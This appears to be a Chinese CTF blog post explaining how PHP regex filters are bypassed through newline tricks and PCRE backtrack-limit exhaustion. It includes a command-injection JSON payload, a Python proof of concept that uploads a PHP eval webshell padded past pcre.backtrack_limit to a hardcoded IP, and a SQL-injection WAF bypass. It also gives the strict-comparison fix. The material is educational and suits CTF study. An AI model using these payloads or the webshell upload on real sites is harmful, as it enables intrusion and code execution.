```yaml
---
layout: mypost
title: "CTF 中那些奇奇怪怪的正则表达式"
categories: [Web 安全]
---
```


- **前言**

在CTF里面的比赛，经常会遇到正则表达式相关的知识，尤其是在白盒审计中，基本正则表达式就是家常便饭了，当然有些ex题确实会黑盒也写一个正则表达式，那就需要经验了哈；至于我为什么要写这篇文章，一就是自己从来没有仔细的思考过为什么要这么去绕过，而更多的就是FUZZ，还是觉得不踏实吧（说白了就是闲的），所以还是专门研究一下这个东西，二来就是这个东西真的在CTF中太常见了，有必要去把它单拉出来去讲一下

![](image-20.png)

- **预备知识**

1.首先就是要去了解这个正则表达式，不需要大家把很多个符号组合起来的表达式给弄清楚，但至少把分开的每一个符号去弄懂是什么意思，这样在以后看组合的正则表达式的时候才不会懵，这里的话就不一一展开去带大家一块复习了，推荐一个网站吧，可以让大家快速上手正则表达式

```
https://www.runoob.com/regexp/regexp-rule.html
```

这个网站做的很好一点就是把各个符号都按照用途去分类了，大家学起来也更加轻松一点，然后简单说几个比较常用的吧

```
^这个符号就表示只匹配那些以特定字符串开头的字符串，而相反的就是$
.就表示匹配任意单字符，但不包括\n，*就和Linux里面的通配符差不多一个意思
（）和|这个就是一些关系运算符
反正耐心看完上面那个文章就会懂这些，我这里就是简单举几个例子，纯当水文了哈哈哈哈
```

2.理解一下正则匹配大致分为正向的正则匹配和反向的正则匹配（这个就是自己瞎创的名词，不必在意），其实这就是两种思考问题的逻辑，直观的从正则表达式来看，就是看一开始有没有加.\*，一旦加了这个，一开始就会整个字符串被选中，然后一一排除

![](image-21.png)

3.明白正则匹配的一个基本的匹配逻辑，如果没有一些额外的限制条件，一定是先查第一个字母匹不匹配，如果匹配的话就接着匹配下一个字母，就这样依次循环，如果一旦检测到不匹配，那么正向的正则匹配，第一个字母就往后推一个单位，相反的，反向的正则匹配会向前推一个单位

4.一定要学会debug正则表达式，就是调试它，这个我也是在网上找了好多款工具，最后觉得这个工具雀氏是有那么亿点好用，这篇文章用这个工具的目的是为了让大家去更好的理解正则匹配表达式，而不是让大家用这个工具去FUZZ（大概就是无脑的一遍一遍的改Payload，然后看无法匹配的情况对应的是哪种Payload，然后就去这样打CTF了，还是多理解一下其中的道理吧）

```
https://hiregex.com/
这个使用起来也特别容易，这个工具单步调试的话需要用方向键即可，这个大家注意一下
```

- **思考**

1.首先我说一下，为什么我会去想这个问题，我以前一直以为绕正则匹配表达式直接想办法构造换行符就行了啊，因为正则匹配表达式的底层逻辑就已经决定了它只能实现单行匹配（默认情况下，表达式后面如果加一些参数的情况另说），但直到遇到了这个题\[FBCTF2019\]RCEService，让我改变了以前的固有看法，我也写了关于这个题的wp，其实就想做的引子，去引出这篇文章，废话不多说，给大家看看这个题的绕过姿势

```
{%0a"cmd":"ls%20/"%0a}
```

有没有觉得很奇怪，如果单纯的像网上那些解释为%0a是回车，而正则匹配只能匹配第一行，那直接这么写就可以了啊

```
{%0a"cmd":"ls%20/"}
```

但事实证明这么写的确会被正则表达式检测到，自己又去下了源码，本地机测试了一遍，千真万确就是正则匹配检测到的，之后又去问一些师傅，有的师傅说是Json格式的问题，必须要对称才行，还有的师傅说应该就是正则匹配表达式底层逻辑的问题，我感觉前者有点扯哈，后者也是没有具体说出底层逻辑是怎么样的，欸，还是得靠自己啦

2.最简单粗暴的方式就是把它扔到那个debug的工具里面，就和沙箱一样，跑一遍，咱们分析分析这个正则匹配表达式的检测过程（我把这个正则表达式稍微简化了一下，道理是一样的）

![](image-18-1024x353.png)

以上就是执行的全部过程，大家也可以自己下去尝试一下，下面咱们来解释一下这个过程哈

```
1.首先^这个定义了从这里开始的
2..*这两个符号一般是连在一起用的，就是可以全选后面除了换行符所有的内容，但是这个字符串确实有换行符，所以基本没啥用，这个就是咱们上面说的那个反向正则匹配
3.然后逐个匹配，因为是或的关系，一旦匹配到一个就直接跳出，然后这里匹配到的是换行符，因为后面那一串奇怪的数字串里面有这个
4.那么下一个.*就可以正常发挥作用了，直接把第二行除了换行符的所有字符都选中
5.然后就进入了$这个符号，按常理来说就要结束了，但是你会发现又一个一个开始往前匹配了，当时我这里也不太理解，应该就是这个$本来就是代表字符串该结束了，但是它并没有结束，这个就是也与正向匹配与反向匹配有关，这一点在下面给大家单独说，咱们先接着看，暂时先记住，只要是反向正则匹配，那么在遇到这个$并不会就直接结束了，而是会先一步一步往前走（这就和逻辑有关了，下面详细说），然后仔细的同学会发现它又走到.*跳转的那一步了,中间走的过程不管有没有匹配到其他的字符，都会向前走，这一点咋去理解呢？我举个例子
因为是或的关系，而且是一个反向的正则表达式，那么在从后往前的过程中，肯定是匹配到谁（谁就是离得最近的那一个），谁就要被接着执行下一步（也就是.*），那么一旦后面$那里出现了换行符，导致匹配的不对，$首先就会找到是从哪里开始.*的，这个就是$的底层逻辑，这是我们改变不了的，这两个%0a也是利用这个逻辑绕过了检测（而且测验发现$的向前跳转还会吞掉换行符，如果不吞并就死循环了(因为正则表达式已经明知道再试一次也不行了，就是往前继续试，它也不确定能不能匹配到，但它试就完了)，然后继续.*，继续循环，这两个%0a也利用了这点，反正就是很巧妙）
6.然后基本就没什么了，所以里用两个%0a是有说法的，而不是像网上的人说的那样
7.还有就是普通的反向正则表达式，没有到$这个地方，那么还是正常的情况，不会像$这样会首先找到
.*这个开始的地方，大家注意区分
```

![](image-19-1024x1024.png)

3.接下来去解释一下上面我所说的问题--这个$本来就是代表字符串该结束了，但是它并没有结束，这个就是也与正向匹配与反向匹配有关

同样举个例子

![](屏幕截图-2023-09-22-145140-1024x179.png)

这个是一个正向匹配的例子，我相信大家对正向的东西逻辑还是更清楚一点的，由于^和$两个连用表示的是强匹配，但是这里明显后面有个换行符，所以肯定成功不了，成功绕过了正则的检测，但你想它为啥没有向前匹配，因为它就是从前面来的啊，所以就是这两种不同的思考问题的方式，导致了不一样的底层代码逻辑，从而导致了同一个$面对不同的情况做出来不一样的表现

- **补充**

这个最早是**P神**发现的方法

1.通过上面的讲解，大家应该理解了我所谓的那个反向正则匹配的说法，P神这里把它定义为回溯（但和$那个情况不一样，就是正常情况）

```
preg_match('/<\?.*[(`;?>].*/is', $data); 
这个是p神举的例子
```

2.假设匹配的输入是`<?php phpinfo();//aaaaa`，实际执行流程是这样的：

![](image-22-1024x445.png)

见上图，可见第4步的时候，因为第一个`.*`可以匹配任何字符，所以最终匹配到了输入串的结尾，也就是`//aaaaa`。但此时显然是不对的，因为正则显示`.*`后面还应该有一个字符``[(`;?>]``

所以NFA就开始回溯，先吐出一个`a`，输入变成第5步显示的`//aaaa`，但仍然匹配不上正则，继续吐出`a`，变成`//aaa`，仍然匹配不上……

最终直到吐出`;`，输入变成第12步显示的`<?php phpinfo()`，此时，`.*`匹配的是`php phpinfo()`，而后面的`;`则匹配上``[(`;?>]``，这个结果满足正则表达式的要求，于是不再回溯。13步开始向后匹配`;`，14步匹配`.*`，第二个`.*`匹配到了字符串末尾，最后结束匹配

这里回溯了8次

3.然后再介绍一个东西就是PHP的pcre.backtrack\_limit限制，也是咱们要利用的地方

PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限`pcre.backtrack_limit`。我们可以通过`var_dump(ini_get('pcre.backtrack_limit'));`的方式查看当前环境下的上限

![](image-23.png)

可见，回溯次数上限默认是100万。那么，假设我们的回溯次数超过了100万，会出现什么现象呢？比如：

![](image-24.png)

可见，`preg_match`返回的不是1或0，而是false

所以，这道题的答案就呼之欲出了，我们通过发送超长字符串的方式，使正则执行失败，最后绕过目标对PHP语言的限制，下面给个POC

```
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

4.然后这里P神又给了一个骚操作，和上面那个理解就又不一样了，先给一个常见的防SQL的方法

```
if(preg_match('/UNION.+?SELECT/is', $input)) {
    die('SQL Injection');
}
```

这里涉及到了正则表达式的“非贪婪模式”。在NFA中，如果我输入`UNION/*aaaaa*/SELECT`，这个正则表达式执行流程如下：

```
.+?匹配到/
因为非贪婪模式，所以.+?停止匹配，而由S匹配*
S匹配*失败，回溯，再由.+?匹配*
因为非贪婪模式，所以.+?停止匹配，而由S匹配a
S匹配a失败，回溯，再由.+?匹配a
...
```

回溯次数随着a的数量增加而增加。所以，我们仍然可以通过发送大量a，来使回溯次数超出`pcre.backtrack_limit`限制，进而绕过WAF：

![](image-25.png)

但这里好像和PHP版本有关，低一点容易成功吧

5.防御措施就是设置正则后为强等于来判断返回值，这样Flase就不等于0了，这个方法也就不会利用成功了，因为这个方法的返回值是Flase，应该高版本就是修复了这个问题，真的是用===这个方法完全失效

- 结尾

基本上了解了这些，以后再看到正则匹配表达式就不会那么的束手无策了，要是打比赛的时候很紧张，那就先放到那个工具里面，手工FUZZ吧，之后下来可以再研究研究，OKOK，这篇文章就到这里结束啦，各位师傅继续加油哈！！！